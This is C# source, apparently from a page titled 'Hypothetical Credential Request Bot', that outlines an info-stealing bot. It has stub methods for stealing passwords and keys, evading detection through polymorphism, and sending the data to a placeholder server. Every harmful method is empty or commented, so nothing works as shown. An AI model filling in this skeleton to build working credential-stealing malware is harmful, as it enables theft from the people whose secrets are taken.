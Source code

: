 Hypothetical Credential Request Bot coded in C#
using System;
using System.Net;
using System.Net.Sockets;

public class HypotheticalBot
{
    public static void Main()
    {
        try
        {
            EstablishSecureConnection();
            StealInformation();
            EvadeDetection();
        }
        catch (Exception ex)
        {
            Console.WriteLine("An error occurred: " + ex.Message);
        }
    }

    public static void EstablishSecureConnection()
    {
        try
        {
            string serverAddress = "hypothetical_server.com";
            int port = 443;

            using (TcpClient client = new TcpClient())
            {
                client.Connect(serverAddress, port);
                // Hypothetically implement SSL here
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error establishing secure connection: " + ex.Message);
        }
    }

    public static void StealInformation()
    {
        try
        {
            string sensitiveData = GatherSensitiveData();
            string encryptedData = EncryptionLibrary.Encrypt(sensitiveData);
            SendDataToServer(encryptedData);
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error stealing information: " + ex.Message);
        }
    }

    public static void EvadeDetection()
    {
        try
        {
            // Hypothetically implement techniques like polymorphism
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error evading detection: " + ex.Message);
        }
    }

    public static string GatherSensitiveData()
    {
        try
        {
            // Hypothetically collect data such as passwords, keys, etc.
            return "";
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error gathering sensitive data: " + ex.Message);
            return "";
        }
    }

    public static void SendDataToServer(string data)
    {
        try
        {
            // Hypothetically send data over the secure connection
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error sending data to server: " + ex.Message);
        }
    }
}

public static class EncryptionLibrary
{
    public static string Encrypt(string data)
    {
        try
        {
            // Hypothetically implement encryption algorithm
            return data;
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error encrypting data: " + ex.Message);
            return data;
        }
    }
}
